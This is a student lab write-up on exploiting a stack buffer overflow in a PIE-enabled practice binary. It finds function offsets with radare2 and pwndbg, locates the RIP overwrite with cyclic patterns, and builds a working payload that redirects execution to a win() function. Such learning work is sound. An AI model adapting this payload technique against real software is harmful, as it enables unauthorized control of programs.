# **Lab 02 — Stack Vulnerability with PIE**

## **Goal**

Understand how Position Independent Executables (PIE) affect vulnerable programs and learn how to redirect execution to the `win()` function by exploiting a stack buffer overflow.

---

## **1. Check the Security Properties**



This confirms:

* PIE ➝ **Enabled**
* Stack Canary ➝ **Disabled**
* NX ➝ **Disabled**
* RELRO ➝ **Full**

Since PIE is enabled, all function addresses change every run.
So we must compute **runtime addresses = piebase + offset**.

---

## **2. Identify the Functions**

Commands:

```
r2 -AA lab02
afl
```



The binary contains three relevant functions:

* `main`
* `vuln`
* `win`

---

## **3. Disassemble Each Function**

### **main()**

* Prints a message
* Calls `vuln()`
* Returns 0

**Offset:** `0x11a3`



---

### **vuln()**

* Uses `gets()` → unsafe and vulnerable

**Offset:** `0x1183`



---

### **win()**

* Prints a success message

**Offset:** `0x1169`



---

## **4. Get PIE Base and Compute Runtime Addresses**

Using pwndbg:



Example PIE base:

```
piebase = 0x555555554000
```

Runtime addresses:

| Function | Offset | Runtime Address = pie + offset |
| -------- | ------ | ------------------------------ |
| main     | 0x11a3 | 0x5555555551a3                 |
| vuln     | 0x1183 | 0x555555555183                 |
| win      | 0x1169 | 0x555555555169                 |

---

## **5. Test Execution Redirection via Jump**

```
jump *0x555555555169
```



This confirms jumping to the `win()` address successfully reaches the intended function.

---

## **6. Analyze the Program Flow**

Break at `main`:

```
break *0x5555555551a3
lay asm
run
si / ni
```

Flow observed:

1. `main()`

   * prints message
   * calls `vuln()`
2. `vuln()`

   * receives input through `gets()`
3. `win()`

   * **never called** normally

---

## **7. Find the Offset Required to Control RIP**

Set a breakpoint right after the call to `vuln()`:

```
break *0x5555555551c4
run
```

Generate pattern:

```
cyclic 200
```

Paste pattern when program prompts for input.

Then:

```
info registers
x/40x $rsp
```






Use cyclic to locate exact RIP overwrite offset:

```
cyclic -l <rip_pattern>
```

### Findings:

* buffer = 32 bytes
* saved RBP = 8 bytes
* RIP overwrite at byte **40**
* Total needed: **40 bytes + new RIP**

---

## **8. Build the Payload**

`win()` address:

```
0x555555555169
```

Convert to little-endian:

```
\x69\x51\x55\x55\x55\x55\x00\x00
```

Payload:

```python
b"A" * 40 + b"\x69\x51\x55\x55\x55\x55\x00\x00"
```

Run the exploit:

```
run < <(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 40 + b"\x69\x51\x55\x55\x55\x55\x00\x00")')
```



This successfully redirects execution to `win()`.

---

## **What I Learned**

* How PIE changes runtime addresses
* How to calculate real addresses using `piebase + offset`
* Using cyclic patterns to find RIP offset
* Basic function analysis using radare2
* Stack buffer overflow in a PIE binary
* Creating a working exploit payload
* Verifying control flow redirection using pwndbg

---